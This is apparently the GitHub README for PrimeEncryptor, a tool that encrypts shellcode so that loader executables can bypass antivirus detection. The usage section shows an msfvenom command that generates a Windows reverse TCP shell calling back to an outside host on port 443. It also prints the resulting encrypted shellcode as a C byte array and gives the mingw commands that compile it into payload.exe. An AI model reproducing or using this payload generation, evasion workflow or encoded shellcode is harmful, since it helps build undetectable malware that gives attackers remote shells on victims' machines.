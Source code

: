 # ♎ **PrimeEncryptor**

**PrimeEncryptor**  is a flexible Dynamic Shellcode Encryptor designed to generate encrypted shellcode using multiple encryption techniques. This tool creates encrypted .bin files, which can be embedded in the resource section of an executable. During runtime, the executable dynamically decrypts and loads the shellcode, helping bypass antivirus and security solutions by evading detection. The encrypted payloads are decrypted at runtime via a loader.

Additionally, PrimeEncryptor provides sample C++ code snippets that give you the necessary functions to load the encrypted shellcode directly from the resource segment of the executable. These code snippets simplify the process of embedding and dynamically loading the shellcode, ensuring efficient execution while maintaining stealth.You can use these functions in your own loaders.

---

<p align="center">
  <img src="https://github.com/dagowda/PrimeEncryptor/blob/1c17d0996fa7276918411d23b72190158d84bc0c/images/screenshot1.png">
</p>

# ✔️ **Installation**

Clone the repository and set up the environment.

### **Installation**
```console
git clone https://github.com/dagowda/PrimeEncryptor.git
cd PrimeEncryptor
sudo apt-get update
sudo apt-get install -y mingw-w64
pip3 install pycryptodome
```

---

# ⚙️ **Usage**

Make sure the necessary dependencies are installed:

```console
➜  PrimeEncryptor msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.222.129 LPORT=443 -f raw >payload.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes

➜  PrimeEncryptor python3 PrimeEncyptor.py payload.bin 

  
                                                                                                                         
██████╗ ██████╗ ██╗███╗   ███╗███████╗    ███████╗███╗   ██╗ ██████╗██████╗ ██╗   ██╗██████╗ ████████╗ ██████╗ ██████╗   
██╔══██╗██╔══██╗██║████╗ ████║██╔════╝    ██╔════╝████╗  ██║██╔════╝██╔══██╗╚██╗ ██╔╝██╔══██╗╚══██╔══╝██╔═══██╗██╔══██╗  
██████╔╝██████╔╝██║██╔████╔██║█████╗      █████╗  ██╔██╗ ██║██║     ██████╔╝ ╚████╔╝ ██████╔╝   ██║   ██║   ██║██████╔╝  
██╔═══╝ ██╔══██╗██║██║╚██╔╝██║██╔══╝      ██╔══╝  ██║╚██╗██║██║     ██╔══██╗  ╚██╔╝  ██╔═══╝    ██║   ██║   ██║██╔══██╗  
██║     ██║  ██║██║██║ ╚═╝ ██║███████╗    ███████╗██║ ╚████║╚██████╗██║  ██║   ██║   ██║        ██║   ╚██████╔╝██║  ██║  
╚═╝     ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═══╝ ╚═════╝╚═╝  ╚═╝   ╚═╝   ╚═╝        ╚═╝    ╚═════╝ ╚═╝  ╚═╝  
                                                                                                                         
................................................                                                                         
                      Encryptor function creator                                                                         
---------------------------------------------------------                                                                
Created by Dhanush Gowda(dagowda)                                                                                        
---------------------------------------------------------                                                                
................................................                                                                                                                                                                                                  
                                                                                                                         
Please select the encryption type:                                                                                       
1.)AES encryption                                                                                                        
2.)rot20                                                                                                                 
3.)rc4 encryption                                                                                                        
>2                                                                                                                       
unsigned char ciphertext[] = {0x10,0x5c,0x97,0xf8,0x04,0xfc,0xd4,0x14,0x14,0x14,0x55,0x65,0x55,0x64,0x66,0x65,0x6a,0x5c,0x45,0xe6,0x79,0x5c,0x9f,0x66,0x74,0x5c,0x9f,0x66,0x2c,0x5c,0x9f,0x66,0x34,0x5c,0x9f,0x86,0x64,0x5c,0x23,0xcb,0x5e,0x5e,0x61,0x45,0xdd,0x5c,0x45,0xd4,0xc0,0x50,0x75,0x90,0x16,0x40,0x34,0x55,0xd5,0xdd,0x21,0x55,0x15,0xd5,0xf6,0x01,0x66,0x55,0x65,0x5c,0x9f,0x66,0x34,0x9f,0x56,0x50,0x5c,0x15,0xe4,0x9f,0x94,0x9c,0x14,0x14,0x14,0x5c,0x99,0xd4,0x88,0x7b,0x5c,0x15,0xe4,0x64,0x9f,0x5c,0x2c,0x58,0x9f,0x54,0x34,0x5d,0x15,0xe4,0xf7,0x6a,0x5c,0x13,0xdd,0x55,0x9f,0x48,0x9c,0x5c,0x15,0xea,0x61,0x45,0xdd,0x5c,0x45,0xd4,0xc0,0x55,0xd5,0xdd,0x21,0x55,0x15,0xd5,0x4c,0xf4,0x89,0x05,0x60,0x17,0x60,0x38,0x1c,0x59,0x4d,0xe5,0x89,0xec,0x6c,0x58,0x9f,0x54,0x38,0x5d,0x15,0xe4,0x7a,0x55,0x9f,0x20,0x5c,0x58,0x9f,0x54,0x30,0x5d,0x15,0xe4,0x55,0x9f,0x18,0x9c,0x5c,0x15,0xe4,0x55,0x6c,0x55,0x6c,0x72,0x6d,0x6e,0x55,0x6c,0x55,0x6d,0x55,0x6e,0x5c,0x97,0x00,0x34,0x55,0x66,0x13,0xf4,0x6c,0x55,0x6d,0x6e,0x5c,0x9f,0x26,0xfd,0x6b,0x13,0x13,0x13,0x71,0x5d,0xd2,0x8b,0x87,0x46,0x73,0x47,0x46,0x14,0x14,0x55,0x6a,0x5d,0x9d,0xfa,0x5c,0x95,0x00,0xb4,0x15,0x14,0x14,0x5d,0x9d,0xf9,0x5d,0xd0,0x16,0x14,0x15,0xcf,0xd4,0xbc,0xf2,0x95,0x55,0x68,0x5d,0x9d,0xf8,0x60,0x9d,0x05,0x55,0xce,0x60,0x8b,0x3a,0x1b,0x13,0xe9,0x60,0x9d,0xfe,0x7c,0x15,0x15,0x14,0x14,0x6d,0x55,0xce,0x3d,0x94,0x7f,0x14,0x13,0xe9,0x64,0x64,0x61,0x45,0xdd,0x61,0x45,0xd4,0x5c,0x13,0xd4,0x5c,0x9d,0xd6,0x5c,0x13,0xd4,0x5c,0x9d,0xd5,0x55,0xce,0xfe,0x23,0xf3,0xf4,0x13,0xe9,0x5c,0x9d,0xdb,0x7e,0x24,0x55,0x6c,0x60,0x9d,0xf6,0x5c,0x9d,0x0d,0x55,0xce,0xad,0xb9,0x88,0x75,0x13,0xe9,0x5c,0x95,0xd8,0x54,0x16,0x14,0x14,0x5d,0xcc,0x77,0x81,0x78,0x14,0x14,0x14,0x14,0x14,0x55,0x64,0x55,0x64,0x5c,0x9d,0xf6,0x6b,0x6b,0x6b,0x61,0x45,0xd4,0x7e,0x21,0x6d,0x55,0x64,0xf6,0x10,0x7a,0xdb,0x58,0x38,0x68,0x15,0x15,0x5c,0xa1,0x58,0x38,0x2c,0xda,0x14,0x7c,0x5c,0x9d,0xfa,0x6a,0x64,0x55,0x64,0x55,0x64,0x55,0x64,0x5d,0x13,0xd4,0x55,0x64,0x5d,0x13,0xdc,0x61,0x9d,0xd5,0x60,0x9d,0xd5,0x55,0xce,0x8d,0xe0,0x53,0x9a,0x13,0xe9,0x5c,0x45,0xe6,0x5c,0x13,0xde,0x9f,0x22,0x55,0xce,0x1c,0x9b,0x31,0x74,0x13,0xe9,0xcf,0x04,0xc9,0xb6,0x6a,0x55,0xce,0xba,0xa9,0xd1,0xb1,0x13,0xe9,0x5c,0x97,0xd8,0x3c,0x50,0x1a,0x90,0x1e,0x94,0x0f,0xf4,0x89,0x19,0xcf,0x5b,0x27,0x86,0x83,0x7e,0x14,0x6d,0x55,0x9d,0xee,0x13,0xe9};                                                                                         
resources.rc and rot20.bin has been created                                                                              
TO COMPILE:                                                                                                              
"x86_64-w64-mingw32-windres resources.rc -O coff -o resources.res"                                                       
"x86_64-w64-mingw32-g++ --static -o payload.exe rot20.cpp resources.res -lws2_32 -lshlwapi -fpermissive"
```

---

## 📄 **Notes**
- Ensure you have **Python 3.8+** installed.
- Run the commands in a terminal with the required permissions.


![image_alt](https://github.com/dagowda/PrimeEncryptor/blob/ca37a805b9147f16fc9f8e1c92f4c76e234a0d22/images/screenshot2.png) 
